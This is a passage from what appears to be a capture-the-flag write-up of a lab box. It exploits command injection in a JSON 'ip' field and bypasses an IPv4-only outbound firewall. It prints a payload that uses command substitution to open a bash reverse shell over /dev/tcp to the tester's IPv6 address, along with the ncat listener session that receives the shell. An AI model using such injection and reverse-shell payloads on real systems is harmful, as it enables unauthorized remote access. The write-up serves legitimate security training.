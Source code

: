 ### RCE in Endpoint

#### Understand Endpoint

The endpoint takes an IP address and seems to return that IP. If I change it,
the new IP comes back as a string:

![image-20220625161323659](https://0xdfimages.gitlab.io/img/image-20220625161323659.png)

I’ll start WireShark and give it my IP, but nothing interesting happens.

If I try something that isn’t a valid IP, it comes back just the same:

![image-20220625161406113](https://0xdfimages.gitlab.io/img/image-20220625161406113.png)

It seems almost like it’s just an echo endpoint. Presumably it’s doing
something with the IP on the server.

I’ll also note that the `User-Agent` string is interesting. If I change it in
any way, the server complains:

![image-20220625161534613](https://0xdfimages.gitlab.io/img/image-20220625161534613.png)

#### Command Injection

On the assumption that something is being done with this given IP address,
I’ll try adding command injection to the parameters, and it works:

![image-20220625161907017](https://0xdfimages.gitlab.io/img/image-20220625161907017.png)

#### Shell - Fail

My initial thought is to get a reverse shell. I’ll try my favorite [bash
reverse shell](https://www.youtube.com/watch?v=OjkVep2EIlw), but it just
hangs, with no contact at my waiting `nc`:

![image-20220625162249703](https://0xdfimages.gitlab.io/img/image-20220625162249703.png)

This is indicative of a firewall blocking outbound. `which nc` shows that `nc`
is on the box, so I’ll try a simple `nc 10.10.14.6 443`, and it hangs as well.

#### Shell - Unintened Success via IPv6

There’s an unintended bypass here that IppSec pointed out - The firewall is
only blocking IPv4. So it’s possible to get a shell using IPv6 with a payload
like:

    
    
    {"ip": "$(bash -c 'bash -i >& /dev/tcp/dead:beef:2::1004/443 0>&1')"}
    

I’ll use `ncat` to listen on IPv6 using the `-6` flag:

    
    
    oxdf@hacky$ ncat -6lvnp 443
    Ncat: Version 7.80 ( https://nmap.org/ncat )
    Ncat: Listening on :::443
    Ncat: Connection from dead:beef::250:56ff:feb9:c742.
    Ncat: Connection from dead:beef::250:56ff:feb9:c742:41884.
    bash: cannot set terminal process group (913): Inappropriate ioctl for device
    bash: no job control in this shell
    paul@routerspace:/opt/www/public/routerspace$
    